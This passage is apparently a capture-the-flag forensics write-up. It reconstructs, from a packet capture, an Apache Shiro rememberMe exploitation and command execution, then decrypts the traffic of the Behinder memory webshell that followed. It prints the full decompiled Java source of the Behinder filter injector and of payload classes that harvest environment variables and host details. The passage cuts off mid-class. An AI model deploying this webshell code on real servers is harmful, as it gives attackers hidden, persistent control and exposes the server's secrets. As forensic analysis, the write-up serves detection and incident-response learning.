




# Layer 1: Apache Shiro CVE-2016-4437

Opening the `pcapng` capture file, most traffic was HTTP. Attempting to filter all HTTP requests:
```c
_ws.col.protocol == "HTTP"
```
It was observed that the initial part consisted of `GET` scans. Later, several `POST` requests were directed to the same path `/favicondemo.ico`. Opening them revealed payloads:
```http
POST /favicondemo.ico HTTP/1.1
...

eSG4ePsiwcRpTl8psR0ZbvQKhUKWCbEYAvU/JyGXXqr9DBZr...
```
Attempting direct Base64 decryption failed, suggesting encryption. It was speculated that there was a prior stage involving trojan implantation or similar processing.
Filtering all `POST` requests:
```c
http.request.method == "POST"
```
HTTP stream 5009 contained a `POST` to `/`. Opening it revealed:
```http
GET / HTTP/1.1
Cookie: rememberMe=u5tKw/P2yG/b6D2LV3ALwGCfb8PsolbgWKkRVXLmAxz/o+0S1XodwNI7QhoBclf1eYgDhRg6oGcg/91vpFMLEozcWHp89rOoNGI+QB5tuxwyl3pqomtWZfydxMpuNmfjFgFOvMwNq9EHwZJ/l5+UrxevXyLxgp0dlgzoAPJVRFAcAEAzZ2BjJRhVSEJTEHqL
...
```

```http
HTTP/1.1 302
Set-Cookie: rememberMe=deleteMe; Path=/; Max-Age=0; Expires=Mon, 05-Jan-2026 05:54:56 GMT
Location: http://10.1.33.69:8080/login
...
```

And a series of similar requests.
Based on the `JSESSIONID`, it indicated a Java backend. The `rememberMe=deleteMe` response is characteristic of attempts to exploit the Apache Shiro deserialization vulnerability (CVE-2016-4437). The earlier part involved brute-forcing to discover the AES encryption key. Looking further, a successful attempt was found:
```http
GET / HTTP/1.1
Cookie: rememberMe=39kG6QV4e6yKVk5izql0TAG8PY/lia9KErrRuLjj+bBlO5CC+5Do9W6XnTCNtK5ZfFcS+Cbornnr/Zj0xiyigR228Lh4HCcjOJI7j+yWPDs6PjmaHaDHGte58v+RwwSnxWsgCK1T3UEVesTB0YlR8hGmC6k1skwQEbZpapvpLBa6HdqHQM0OborIzk8GzM4X
...
```

The server responded:
```http
HTTP/1.1 302
Location: http://10.1.33.69:8080/login
...
```
The absence of a new `Set-Cookie` header indicated that the AES key had been successfully matched. Subsequently:
```http
GET / HTTP/1.1
Cookie: rememberMe=D5RAhUGqvWLViba9P...h92mxoUt9p
Authorization: Basic d2hvYW1p
...
```

Server response:
```http
HTTP/1.1 200
...

$$$cm9vdAo=$$$
```
Decoding `cm9vdAo=` yields `root`. Decoding the `Authorization` header value `d2hvYW1p` yields `whoami`, confirming RCE was achieved.
Subsequent commands were executed, returning:
```shell
pwd
/

ls -la
total 21844
drwxr-xr-x   1 root root     4096 Jan  6 03:43 .
drwxr-xr-x   1 root root     4096 Jan  6 03:43 ..
-rwxr-xr-x   1 root root        0 Jan  6 03:43 .dockerenv
drwxr-xr-x   1 root root     4096 Oct 21  2016 bin
drwxr-xr-x   2 root root     4096 Sep 12  2016 boot
drwxr-xr-x   5 root root      340 Jan  6 03:43 dev
drwxr-xr-x   1 root root     4096 Jan  6 03:43 etc
drwxr-xr-x   2 root root     4096 Sep 12  2016 home
drwxr-xr-x   1 root root     4096 Oct 31  2016 lib
drwxr-xr-x   2 root root     4096 Oct 20  2016 lib64
drwxr-xr-x   2 root root     4096 Oct 20  2016 media
drwxr-xr-x   2 root root     4096 Oct 20  2016 mnt
drwxr-xr-x   2 root root     4096 Oct 20  2016 opt
dr-xr-xr-x 167 root root        0 Jan  6 03:43 proc
drwx------   2 root root     4096 Oct 20  2016 root
drwxr-xr-x   3 root root     4096 Oct 20  2016 run
drwxr-xr-x   2 root root     4096 Oct 20  2016 sbin
-rw-r--r--   1 root root 22290368 Dec 19  2019 shirodemo-1.0-SNAPSHOT.jar
drwxr-xr-x   2 root root     4096 Oct 20  2016 srv
dr-xr-xr-x  13 root root        0 Jan  6 03:43 sys
drwxrwxrwt   1 root root     4096 Jan  6 03:43 tmp
drwxr-xr-x   1 root root     4096 Oct 31  2016 usr
drwxr-xr-x   1 root root     4096 Oct 31  2016 var

w
 05:56:48 up 9 days,  2:03,  0 users,  load average: 1.44, 0.84, 0.33
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
```
Nothing particularly useful was found.
Subsequently, a request was sent:
```http
POST / HTTP/1.1
...
Cookie: rememberMe=YoANb79EEs8RT9LYVMfOgU1OPqUGfQkiNLKLem...J1I/ASq9A==
p: HWmc2TLDoihdlr0N
path: /favicondemo.ico
...

user=yv66vgAAADQB5...GCQ%3D%3D
```

The server responded:
```http
HTTP/1.1 200
Content-Type: text/html;charset=UTF-8
Transfer-Encoding: chunked
Date: Tue, 06 Jan 2026 05:57:43 GMT
Connection: close

->|Success|<-
```
No further similar packets were observed, indicating a webshell was likely implanted.

# Layer 2: Behinder WebShell Memory-Shell

Direct Base64 decoding of the `user` parameter from the above `POST` request revealed a Java class starting with `CAFEBABE`. Exporting and attempting to open it with Jadx yielded:



**Code - Click to show**


```java
package com.summersec.x;

import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.math.BigInteger;
import java.security.InvalidKeyException;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.util.EnumSet;
import java.util.HashMap;
import java.util.Map;
import javax.crypto.Cipher;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.DispatcherType;
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.FilterRegistration;
import javax.servlet.ServletContext;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestWrapper;
import javax.servlet.ServletResponse;
import javax.servlet.ServletResponseWrapper;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import org.apache.catalina.LifecycleState;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.ResponseFacade;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.util.LifecycleBase;
  
/* loaded from: download.class */
public final class BehinderFilter extends ClassLoader implements Filter {
    public HttpServletRequest request;
    public HttpServletResponse response;
    public String cs;
    public String Pwd;
    public String path;

    public BehinderFilter() {
        this.request = null;
        this.response = null;
        this.cs = "UTF-8";
        this.Pwd = "eac9fa38330a7535";
        this.path = "/favicondemo.ico";
    }
  
    public BehinderFilter(ClassLoader c) {
        super(c);
        this.request = null;
        this.response = null;
        this.cs = "UTF-8";
        this.Pwd = "eac9fa38330a7535";
        this.path = "/favicondemo.ico";
    }
  
    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);
    }
  
    public static String md5(String s) throws NoSuchAlgorithmException {
        String ret = null;
        try {
            MessageDigest m = MessageDigest.getInstance("MD5");
            m.update(s.getBytes(), 0, s.length());
            ret = new BigInteger(1, m.digest()).toString(16).substring(0, 16);
        } catch (Exception e) {
        }
        return ret;
    }
  
    public boolean equals(Object obj) throws NoSuchFieldException, ClassNotFoundException {
        parseObj(obj);
        this.Pwd = md5(this.request.getHeader("p"));
        this.path = this.request.getHeader("path");
        StringBuffer output = new StringBuffer();
        try {
            this.response.setContentType("text/html");
            this.request.setCharacterEncoding(this.cs);
            this.response.setCharacterEncoding(this.cs);
            output.append(addFilter());
        } catch (Exception var7) {
            output.append("ERROR:// " + var7.toString());
        }
        try {
            this.response.getWriter().print("->|" + output.toString() + "|<-");
            this.response.getWriter().flush();
            this.response.getWriter().close();
            return true;
        } catch (Exception e) {
            return true;
        }
    }
  
    public void parseObj(Object obj) throws NoSuchFieldException, ClassNotFoundException {
        if (obj.getClass().isArray()) {
            Object[] data = (Object[]) obj;
            this.request = (HttpServletRequest) data[0];
            this.response = (HttpServletResponse) data[1];
            return;
        }
        try {
            Class clazz = Class.forName("javax.servlet.jsp.PageContext");
            this.request = (HttpServletRequest) clazz.getDeclaredMethod("getRequest", new Class[0]).invoke(obj, new Object[0]);
            this.response = (HttpServletResponse) clazz.getDeclaredMethod("getResponse", new Class[0]).invoke(obj, new Object[0]);
        } catch (Exception e) {
            if (obj instanceof HttpServletRequest) {
                this.request = (HttpServletRequest) obj;
                try {
                    Field req = this.request.getClass().getDeclaredField("request");
                    req.setAccessible(true);
                    HttpServletRequest request2 = (HttpServletRequest) req.get(this.request);
                    Field resp = request2.getClass().getDeclaredField("response");
                    resp.setAccessible(true);
                    this.response = (HttpServletResponse) resp.get(request2);
                } catch (Exception e2) {
                    try {
                        this.response = (HttpServletResponse) this.request.getClass().getDeclaredMethod("getResponse", new Class[0]).invoke(obj, new Object[0]);
                    } catch (Exception e3) {
                    }
                }
            }
        }
    }
  
    public String addFilter() throws Exception {
        Class filterMap;
        ServletContext servletContext = this.request.getServletContext();
        String filterName = this.path;
        String url = this.path;
        if (servletContext.getFilterRegistration(filterName) == null) {
            StandardContext standardContext = null;
            Field stateField = null;
            try {
                try {
                    Field contextField = servletContext.getClass().getDeclaredField("context");
                    contextField.setAccessible(true);
                    ApplicationContext applicationContext = (ApplicationContext) contextField.get(servletContext);
                    Field contextField2 = applicationContext.getClass().getDeclaredField("context");
                    contextField2.setAccessible(true);
                    standardContext = (StandardContext) contextField2.get(applicationContext);
                    stateField = LifecycleBase.class.getDeclaredField("state");
                    stateField.setAccessible(true);
                    stateField.set(standardContext, LifecycleState.STARTING_PREP);
                    FilterRegistration.Dynamic filterRegistration = servletContext.addFilter(filterName, this);
                    filterRegistration.addMappingForUrlPatterns(EnumSet.of(DispatcherType.REQUEST), false, new String[]{url});
                    Method filterStartMethod = StandardContext.class.getMethod("filterStart", new Class[0]);
                    filterStartMethod.setAccessible(true);
                    filterStartMethod.invoke(standardContext, (Object[]) null);
                    stateField.set(standardContext, LifecycleState.STARTED);
                    try {
                        filterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                    } catch (Exception e) {
                        filterMap = Class.forName("org.apache.catalina.deploy.FilterMap");
                    }
                    Method findFilterMaps = standardContext.getClass().getMethod("findFilterMaps", new Class[0]);
                    Object[] filterMaps = (Object[]) findFilterMaps.invoke(standardContext, new Object[0]);
                    for (int i = 0; i < filterMaps.length; i++) {
                        Object filterMapObj = filterMaps[i];
                        Method findFilterMaps2 = filterMap.getMethod("getFilterName", new Class[0]);
                        String name = (String) findFilterMaps2.invoke(filterMapObj, new Object[0]);
                        if (name.equalsIgnoreCase(filterName)) {
                            filterMaps[i] = filterMaps[0];
                            filterMaps[0] = filterMapObj;
                        }
                    }
                    stateField.set(standardContext, LifecycleState.STARTED);
                    return "Success";
                } catch (Exception var22) {
                    String var11 = var22.getMessage();
                    stateField.set(standardContext, LifecycleState.STARTED);
                    return var11;
                }
            } catch (Throwable th) {
                stateField.set(standardContext, LifecycleState.STARTED);
                throw th;
            }
        }
        return "Filter already exists";
    }
  
    /* JADX WARN: Multi-variable type inference failed */
    public void doFilter(ServletRequest req, ServletResponse resp, FilterChain chain) throws IllegalAccessException, NoSuchPaddingException, ServletException, NoSuchMethodException, NoSuchAlgorithmException, SecurityException, InvalidKeyException, IOException, IllegalArgumentException, InvocationTargetException {
        HttpSession session = ((HttpServletRequest) req).getSession();
        ServletRequest servletRequestInvoke = req;
        ServletResponse servletResponseInvoke = resp;
        if (!(servletRequestInvoke instanceof RequestFacade)) {
            try {
                Method getRequest = ServletRequestWrapper.class.getMethod("getRequest", new Class[0]);
                servletRequestInvoke = getRequest.invoke(this.request, new Object[0]);
                while (!(servletRequestInvoke instanceof RequestFacade)) {
                    servletRequestInvoke = getRequest.invoke(servletRequestInvoke, new Object[0]);
                }
            } catch (Exception e) {
            }
        }
        try {
            if (!(servletResponseInvoke instanceof ResponseFacade)) {
                Method getResponse = ServletResponseWrapper.class.getMethod("getResponse", new Class[0]);
                servletResponseInvoke = getResponse.invoke(this.response, new Object[0]);
                while (!(servletResponseInvoke instanceof ResponseFacade)) {
                    servletResponseInvoke = getResponse.invoke(servletResponseInvoke, new Object[0]);
                }
            }
        } catch (Exception e2) {
        }
        Map obj = new HashMap();
        obj.put("request", servletRequestInvoke);
        obj.put("response", servletResponseInvoke);
        obj.put("session", session);
        try {
            session.putValue("u", this.Pwd);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(this.Pwd.getBytes(), "AES"));
            new BehinderFilter(getClass().getClassLoader()).g(c.doFinal(base64Decode(req.getReader().readLine()))).newInstance().equals(obj);
        } catch (Exception var7) {
            var7.printStackTrace();
        }
    }
  
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Object decoder = Class.forName("java.util.Base64").getMethod("getDecoder", new Class[0]).invoke(null, new Object[0]);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
  
    public void init(FilterConfig filterConfig) throws ServletException {
    }
  
    public void destroy() {
    }
}
```


This revealed a Behinder webshell. Analysis showed it encrypts/decrypts requests and responses using AES. If the request header contains `p`, it takes the MD5 hash of the `p` value and uses the first 16 characters as the AES key.
Based on the earlier request, `p: HWmc2TLDoihdlr0N`, its MD5 hash is `1f2c8075acd3d118674e99f8e61b9596`. The first 16 characters, `1f2c8075acd3d118`, are the AES password.
It also set `/favicondemo.ico` as the C2 communication address, confirming that the POST data observed at this URL were the communication records.

Next, examining the previously identified `POST` packets, HTTP stream 40552 contained a large number of exchanges.
A Python script was written to decrypt the first request payload using the key `1f2c8075acd3d118`:
```python
import Crypto.Cipher
from Crypto.Cipher import AES
import base64

def decrypt_behinder(data, key_str):
    key = key_str.encode('utf-8')
    raw_data = base64.b64decode(data)
    cipher = AES.new(key, AES.MODE_ECB)
    decrypted = cipher.decrypt(raw_data)
    # Remove PKCS5Padding
    padding_len = decrypted[-1]
    return decrypted[:-padding_len]

key = "1f2c8075acd3d118"
body = "qjYfBvYIRKQ...ciIgehs="

data=decrypt_behinder(body, key)
print(data)
with open(f"payload2.bin", "wb") as file:
	file.write(data) 
```
The output started with `CAFEBABE`, the Java class file header. Opening it with Jadx:


**Code - Click to show**


```java
package net.qmrqiui;

import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.LinkedHashMap;
import java.util.Map;
import java.util.Random;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;

/* compiled from: Echo.java */
/* loaded from: payload-favicondemo.ico.class */
public class Fmdrfajtrr {
    public static String content;
    public static String payloadBody;
    private Object Request;
    private Object Response;
    private Object Session;

    private byte[] Encrypt(byte[] bArr) throws Exception {
        SecretKeySpec secretKeySpec = new SecretKeySpec("1f2c8075acd3d118".getBytes("utf-8"), "AES");
        Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
        cipher.init(1, secretKeySpec);
        byte[] bArrDoFinal = cipher.doFinal(bArr);
        try {
            Class<?> cls = Class.forName("java.util.Base64");
            Object objInvoke = cls.getMethod("getEncoder", null).invoke(cls, null);
            bArrDoFinal = (byte[]) objInvoke.getClass().getMethod("encode", byte[].class).invoke(objInvoke, bArrDoFinal);
        } catch (Throwable th) {
            Object objNewInstance = Class.forName("sun.misc.BASE64Encoder").newInstance();
            bArrDoFinal = ((String) objNewInstance.getClass().getMethod("encode", byte[].class).invoke(objNewInstance, bArrDoFinal)).replace("\n", "").replace("\r", "").getBytes();
        }
        return bArrDoFinal;
    }

    public Fmdrfajtrr() {
        content = "";
        content += "1oMRO2dvZFDzLDMX8hNiYBh2qzBvSzSi1EaD2vCMM7Q8kxqxrX085JlqFrt40qku6RCR0D0JF3tPc5fYUWW5Op0YP9hLpG8MPlgtOpMYbdDH1iGmuWO75I3XVO9evcyqhb19Sk3Et99wkKl5fsYAWZKEofJmsis7Vv2uCRwGbsE6LvpmqNGvJnB3v";
    }

    public boolean equals(Object obj) throws IllegalAccessException, NoSuchMethodException, SecurityException, IllegalArgumentException, InvocationTargetException {
        Map<String, String> result = new LinkedHashMap<>();
        try {
            try {
                fillContext(obj);
                result.put("status", "success");
                result.put("msg", content);
                try {
                    Object so = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                    Method write = so.getClass().getMethod("write", byte[].class);
                    write.invoke(so, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                    so.getClass().getMethod("flush", new Class[0]).invoke(so, new Object[0]);
                    so.getClass().getMethod("close", new Class[0]).invoke(so, new Object[0]);
                    return true;
                } catch (Exception e) {
                    e.printStackTrace();
                    return true;
                }
            } catch (Exception e2) {
                result.put("msg", e2.getMessage());
                result.put("status", "success");
                try {
                    Object so2 = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                    Method write2 = so2.getClass().getMethod("write", byte[].class);
                    write2.invoke(so2, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                    so2.getClass().getMethod("flush", new Class[0]).invoke(so2, new Object[0]);
                    so2.getClass().getMethod("close", new Class[0]).invoke(so2, new Object[0]);
                    return true;
                } catch (Exception e3) {
                    e3.printStackTrace();
                    return true;
                }
            }
        } catch (Throwable th) {
            try {
                Object so3 = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                Method write3 = so3.getClass().getMethod("write", byte[].class);
                write3.invoke(so3, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                so3.getClass().getMethod("flush", new Class[0]).invoke(so3, new Object[0]);
                so3.getClass().getMethod("close", new Class[0]).invoke(so3, new Object[0]);
            } catch (Exception e4) {
                e4.printStackTrace();
            }
            throw th;
        }
    }

    private String buildJson(Map<String, String> entity, boolean encode) throws Exception {
        StringBuilder sb = new StringBuilder();
        System.getProperty("java.version");
        sb.append("{");
        for (String key : entity.keySet()) {
            sb.append("\"" + key + "\":\"");
            String value = entity.get(key);
            if (encode) {
                value = base64encode(value.getBytes());
            }
            sb.append(value);
            sb.append("\",");
        }
        if (sb.toString().endsWith(",")) {
            sb.setLength(sb.length() - 1);
        }
        sb.append("}");
        return sb.toString();
    }

    private void fillContext(Object obj) throws Exception {
        if (obj.getClass().getName().indexOf("PageContext") >= 0) {
            this.Request = obj.getClass().getMethod("getRequest", new Class[0]).invoke(obj, new Object[0]);
            this.Response = obj.getClass().getMethod("getResponse", new Class[0]).invoke(obj, new Object[0]);
            this.Session = obj.getClass().getMethod("getSession", new Class[0]).invoke(obj, new Object[0]);
        } else {
            Map<String, Object> objMap = (Map) obj;
            this.Session = objMap.get("session");
            this.Response = objMap.get("response");
            this.Request = objMap.get("request");
        }
        this.Response.getClass().getMethod("setCharacterEncoding", String.class).invoke(this.Response, "UTF-8");
    }

    private String base64encode(byte[] data) throws Exception {
        String result;
        System.getProperty("java.version");
        try {
            getClass();
            Class Base64 = Class.forName("java.util.Base64");
            Object Encoder = Base64.getMethod("getEncoder", null).invoke(Base64, null);
            result = (String) Encoder.getClass().getMethod("encodeToString", byte[].class).invoke(Encoder, data);
        } catch (Throwable th) {
            getClass();
            Object Encoder2 = Class.forName("sun.misc.BASE64Encoder").newInstance();
            String result2 = (String) Encoder2.getClass().getMethod("encode", byte[].class).invoke(Encoder2, data);
            result = result2.replace("\n", "").replace("\r", "");
        }
        return result;
    }

    private byte[] getMagic() throws Exception {
        String key = this.Session.getClass().getMethod("getAttribute", String.class).invoke(this.Session, "u").toString();
        int magicNum = Integer.parseInt(key.substring(0, 2), 16) % 16;
        Random random = new Random();
        byte[] buf = new byte[magicNum];
        for (int i = 0; i < buf.length; i++) {
            buf[i] = (byte) random.nextInt(256);
        }
        return buf;
    }
}
```


It simply returned the data string `1oMRO2dvZFDzLDMX8h...mqNGvJnB3v` and base64 encoded it. Decoding the response confirmed this.
Continuing to decrypt and reverse the second request:


**Code - Click to show**


```java
package org.arkpoti.qegfs;

import java.io.File;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.net.Inet4Address;
import java.net.InetAddress;
import java.net.NetworkInterface;
import java.net.SocketException;
import java.util.Enumeration;
import java.util.HashMap;
import java.util.Map;
import java.util.Properties;
import java.util.Random;
import java.util.Set;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;

/* compiled from: BasicInfo.java */
/* loaded from: payload-favicondemo(2).ico.class */
public class Huhmocmx {
    public static String whatever;
    private Object Request;
    private Object Response;
    private Object Session;

    private byte[] Encrypt(byte[] bArr) throws Exception {
        SecretKeySpec secretKeySpec = new SecretKeySpec("1f2c8075acd3d118".getBytes("utf-8"), "AES");
        Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
        cipher.init(1, secretKeySpec);
        byte[] bArrDoFinal = cipher.doFinal(bArr);
        try {
            Class<?> cls = Class.forName("java.util.Base64");
            Object objInvoke = cls.getMethod("getEncoder", null).invoke(cls, null);
            bArrDoFinal = (byte[]) objInvoke.getClass().getMethod("encode", byte[].class).invoke(objInvoke, bArrDoFinal);
        } catch (Throwable th) {
            Object objNewInstance = Class.forName("sun.misc.BASE64Encoder").newInstance();
            bArrDoFinal = ((String) objNewInstance.getClass().getMethod("encode", byte[].class).invoke(objNewInstance, bArrDoFinal)).replace("\n", "").replace("\r", "").getBytes();
        }
        return bArrDoFinal;
    }

    public Huhmocmx() {
        whatever = "";
        whatever += "nrUlBDIWY47Voq6K0Ro3FKVOpcOgruIO6bGpwEV5tlFcaaUoHwS2bwC1fwgrXuOLNdQIFovDsRYeeoKSIJAgcfLk3PaESDGIkdJTGGMuoc9bXnBzFry0xgmVYy8gHAKaQFUB0MpL39iuIgGUqA3VdLFOQTuLL83nO2jM5E5molVy30DbTUSYVuJryWB0l7nBKIzDn8axk7wPmDyQ6NXiDT68y3aWEWiwI6hnv2sJZwhdIABULpbv0U3C0ble2IrQjKbba5YkdEig5PzTa1oGYgW9oJSyYvtAeABtnzcY6UmgPYRHs37GWJdPKRctwReHJ3SmLYMqeJyyCDp4mURvctnDgfakpjGxmrvTpGYex8mtsogYatwG3yHso81lLM0jFfYYe3QY7Qywg6SL5GgP9p5Ry2ZZ1ksOfxSguSw3KeIjCV7RaGoZyO5YiC8zWWoLAfERhdKlMGixQv6DrR1LNuI0UdJTRWjEtZ0OEFtiG5AXxaxEtxfxUcg0HBJqxfs5aeCurRoGbg3c5M1TaTxFnDx2tnibB9XyS6FGzmOibZBGV8SJo2vf3MuUXwXrI3w8hWsLu4oELUljNSUGhwO5X1gUdDL4XMk0j1dlTIbcjyYnwwAKF9tP3Hlq6ryo9SIbUkJ7gYFl5V09WKjPfZm65qnHGROfrd5n2d7hePLJ0GyD867DHO9K4U3NAbIgKQovDlFSsmjMAcE1jjeAuMl90xvpHeRZucgwZEzZdJb3e4wyufhmXkJy";
    }

    public boolean equals(Object obj) throws IllegalAccessException, NoSuchMethodException, SecurityException, IllegalArgumentException, InvocationTargetException {
        Map<String, String> result = new HashMap<>();
        try {
            fillContext(obj);
            StringBuilder basicInfo = new StringBuilder("<br/><font size=2 color=red>环境变量:</font><br/>");
            Map<String, String> env = System.getenv();
            for (String name : env.keySet()) {
                basicInfo.append(name + "=" + env.get(name) + "<br/>");
            }
            basicInfo.append("<br/><font size=2 color=red>JRE系统属性:</font><br/>");
            Properties props = System.getProperties();
            Set<Map.Entry<Object, Object>> entrySet = props.entrySet();
            for (Map.Entry<Object, Object> entry : entrySet) {
                basicInfo.append(entry.getKey() + " = " + entry.getValue() + "<br/>");
            }
            String currentPath = new File("").getAbsolutePath();
            String driveList = "";
            File[] roots = File.listRoots();
            for (File f : roots) {
                driveList = driveList + f.getPath() + ";";
            }
            String osInfo = System.getProperty("os.name") + System.getProperty("os.version") + System.getProperty("os.arch");
            Map<String, String> entity = new HashMap<>();
            entity.put("basicInfo", basicInfo.toString());
            entity.put("currentPath", currentPath);
            entity.put("driveList", driveList);
            entity.put("osInfo", osInfo);
            entity.put("arch", System.getProperty("os.arch"));
            entity.put("localIp", getInnerIp());
            result.put("status", "success");
            result.put("msg", buildJson(entity, true));
